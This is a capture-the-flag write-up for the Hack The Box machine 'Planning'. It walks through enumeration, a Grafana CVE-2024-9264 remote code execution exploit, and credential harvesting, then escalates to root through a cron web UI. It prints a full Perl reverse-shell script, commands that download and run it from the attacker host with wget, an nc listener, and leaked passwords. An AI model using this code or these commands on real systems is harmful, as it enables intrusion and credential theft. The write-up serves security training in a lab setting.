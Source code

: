 ```yaml
---
layout: post
title: "HTB Linux Easy: Planning"
description: "Planning is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
nmap -p22,80 -sCV 10.10.11.68
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 14:18 CEST
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.099s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Modify hosts file:
```bash
10.10.11.68 planning.htb
```

### Enumerate HTTP (Port 80)
We are able to find a subdomain:
```bash
ffuf -w /opt/wordlists/SecLists/Discovery/DNS/combined_subdomains.txt -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -fl 8

grafana  [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 24ms]
```

Modify hosts file:
```bash
10.10.11.68 planning.htb grafana.planning.htb
```

Use the creds we were given to login:
```bash
admin:0D5oT70Fq13EvB5r
```

The following authenticated RCE/File Read exploit stands out: [Link](https://github.com/nollium/CVE-2024-9264).
```bash
# Install
cd /tmp
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264
pip3 install -r requirements.txt --break-system-packages

# Usage
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c id http://grafana.planning.htb       
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: id
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('id >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
uid=0(root) gid=0(root) groups=0(root)
```

Payload:
```perl
#!/usr/bin/perl -w

use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell.  Change these.
my $ip = '10.10.14.95';
my $port = 80;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
		# source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
	cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

	if ($auth) {
		unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
			cgiprint("ERROR: Your client isn't authorised to view this page");
			cgiexit();
		}
	}
} elsif ($auth) {
	cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
	cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
	my $pid = fork();
	if ($pid) {
		cgiexit(0); # parent exits
	}

	setsid();
	chdir('/');
	umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
	cgiprint("Sent reverse shell to $ip:$port");
	cgiprintpage();
} else {
	cgiprint("Couldn't open reverse shell to $ip:$port: $!");
	cgiexit();	
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
	my $line = shift;
	$line .= "<p>\n";
	$global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
	cgiprintpage();
	exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
	print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```

Shell:
```bash
# Download payload
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'wget 10.10.14.95:8000/pl.pl' http://grafana.planning.htb

# Execute
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl pl.pl' http://grafana.planning.htb

# Shell
nc -lvnp 443         
listening on [any] 443 ...
connect to [10.10.14.95] from (UNKNOWN) [10.10.11.68] 46070
 12:36:31 up  8:35,  0 users,  load average: 0.02, 0.06, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux 7ce659d667d7 6.8.0-59-generic #61-Ubuntu SMP PREEMPT_DYNAMIC Fri Apr 11 23:16:11 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```


### Lateral Movement
Linpeas reveals creds stored inside the environment variables:
```bash
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

SSH using the creds:
```bash
ssh enzo@10.10.11.68
enzo@10.10.11.68's password: 
enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```

User.txt: `beaec488ad2716f771942b05cee79cbf`
```bash
cat user.txt
beaec488ad2716f771942b05cee79cbf
```


### Privilege Escalation
Open ports:
```bash
tcp   0      0 127.0.0.1:3000      0.0.0.0:*       LISTEN      -     
tcp   0      0 127.0.0.1:8000      0.0.0.0:*       LISTEN      -
tcp   0      0 127.0.0.1:3306      0.0.0.0:*       LISTEN      -
```

Opt folder contains a crontabs folder:
```bash
cat crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

Port forward port 8000:
```bash
./chisel server --port 443 --reverse
./chisel client 10.10.14.95:443 R:8080:localhost:8000
```

Log in with: `root:P4ssw0rdS0pRi0T3c`.
![Pasted image 20250902150057.png](/images/Pasted image 20250902150057.png){: .normal }


Command:
![Pasted image 20250902150135.png](/images/Pasted image 20250902150135.png){: .normal }


Execute by pressing "Run now" and switch to root:
```bash
enzo@planning:~$ /bin/bash -p
bash-5.2# id
uid=1000(enzo) gid=1000(enzo) euid=0(root) groups=1000(enzo)
```

Root.txt: `6f51f18f99059d84133195e5ed324871`
```bash
cat root.txt
6f51f18f99059d84133195e5ed324871
```

### PWNED!!
![Pasted image 20250902150619.png](/images/Pasted image 20250902150619.png){: .normal }